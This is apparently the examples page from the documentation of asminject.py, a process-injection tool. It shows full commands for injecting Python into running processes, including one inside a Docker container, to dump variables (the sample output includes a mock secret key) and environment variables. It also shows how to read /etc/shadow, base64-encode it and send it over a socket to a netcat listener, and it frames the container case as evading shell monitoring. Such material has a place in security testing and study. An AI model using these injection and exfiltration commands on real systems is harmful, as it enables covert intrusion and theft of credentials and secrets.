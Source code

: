 # asminject.py examples - Python
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)
* [Interact with a container only via injected Python code](#interact-with-a-container-only-via-injected-python-code)

## Important

For all Python 3 examples, refer to the <a href="docs/specialized_options.md#specifying-non-pic-code">position-independent code discussion in the specialized options document</a>. Python 3 before 3.10 is usually not position-independent, but Python 3.10 and later usually are.

Some Linux distributions include builds of Python that place most of its functionality in a separate `libpython` shared library. For that type of environment, you'll need to use the `execute_python_code-libpython.s` payload instead of `execute_python_code.s`.

## Write all global or local variables to standard out

Use [the following Python code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]
```

e.g.

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

or

```
# python3 ./asminject.py 249594 execute_python_code.s --arch x86-64 \
   --relative-offsets-from-binaries \
   --non-pic-binary "/usr/bin/python3\\.[0-9]+" --stop-method "slow" \
   --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items() if not k.startswith('_') and k!='tmp' and k!='In' and k!='Out' and not hasattr(v, '__call__')]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Interact with a container only via injected Python code

This scenario simulates a container that either does not allow access to an interactive shell, or use of the interactive shell would trigger an unwanted response.

Start a Python 3 process in a Docker container:
~~~
# docker run -v $(pwd)/practice/python_loop.py:/tmp/python_loop.py --network=host -ti fedora

latest: Pulling from library/fedora
e1deda52ffad: Pull complete 
...omitted for brevity...
[root@3a78fa62ff5b /]# python3 /tmp/python_loop.py 
2022-06-29T21:30:19.037816 - Loop count 0
2022-06-29T21:30:24.043250 - Loop count 1
~~~

Locate the process ID for the Python process, then get a list of the binaries it has loaded:

~~~
# ps auxww | grep python                  

...omitted for brevity...
root     2378331  0.0  0.1  10148  7268 pts/0    S+   14:30   0:00 python3 /tmp/python_loop.py

# cat /proc/2378331/maps

556d84513000-556d84514000 r--p 00000000 08:01 624517                     /usr/bin/python3.10
...omitted for brevity...
7f8483e8b000-7f8483ee4000 r--p 00000000 08:01 626234                     /usr/lib64/libpython3.10.so.1.0
...omitted for brevity...
~~~

Copy any necessary binaries out of the container and generate offsets from them. For example:

~~~
# docker cp 3a78fa62ff5b:/usr/bin/python3.10 ./docker-fedora-python3.10

# docker cp 3a78fa62ff5b:/usr/lib64/libpython3.10.so.1.0 ./docker-fedora-libpython3.10

# ./get_relative_offsets.sh docker-fedora-python3.10 > relative-offsets-docker-fedora-python3.10.txt

# ./get_relative_offsets.sh docker-fedora-libpython3.10 > relative-offsets-docker-fedora-libpython3.10.txt
~~~

In this case, the container is using a version of Python 3 that places most of its functions in `/usr/lib64/libpython3.10.so.1.0` instead of `/usr/bin/python3.10`, so you'll need to inject into it using the `execute_python_code-libpython.s` payload, e.g.:

~~~
# python3 ./asminject.py 2378331 execute_python_code-libpython.s --arch x86-64 --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt --stop-method "slow" --var pythoncode 'import os; print(os.environ);'

~~~

This should generate output in the terminal where the container was launched, e.g.:

~~~
2022-06-29T21:53:35.027900 - Loop count 278
environ({'HOSTNAME': '3a78fa62ff5b', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'})
2022-06-29T21:53:44.063159 - Loop count 279
~~~

To simulate a situation where the console is not visible, you can send Python code that will return the output to a TCP listener, e.g.:

~~~
% nc -nvlkp 7777
listening on [any] 7777 ...
~~~

Then, in another terminal:

~~~
# python3 ./asminject.py 2378331 execute_python_code-libpython.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import os; import socket; s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(f\"{os.environ}\".encode()); s.close()'
~~~

You should see the output in the `nc` listener, e.g.:

~~~
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45528
environ({'HOSTNAME': 'copyroom', 'DISTTAG': 'f36container', 'PWD': '/', 'FBR': 'f36', 'HOME': '/root',
...omitted for brevity...
'PATH': '/root/.local/bin:/root/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', '_': '/usr/bin/python3'}
~~~

Copy a file out of the container:

~~~
# python3 ./asminject.py 2378331 execute_python_code-libpython.s \
   --arch x86-64 \
   --relative-offsets relative-offsets-docker-fedora-libpython3.10.txt \
   --stop-method "slow" \
   --var pythoncode 'import base64; import os; import socket; f = open(\"/etc/shadow\", mode=\"rb\"); content = f.read(); f.close(); encoded = base64.b64encode(content); s = socket.socket(); s.connect((\"127.0.0.1\", 7777)); s.send(encoded); s.close();'
~~~

The base64-encoded version should appear in the netcat listener:

~~~
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45530
cm9vdDohbG9ja2VkOjowOjk5O...omitted for brevity...
~~~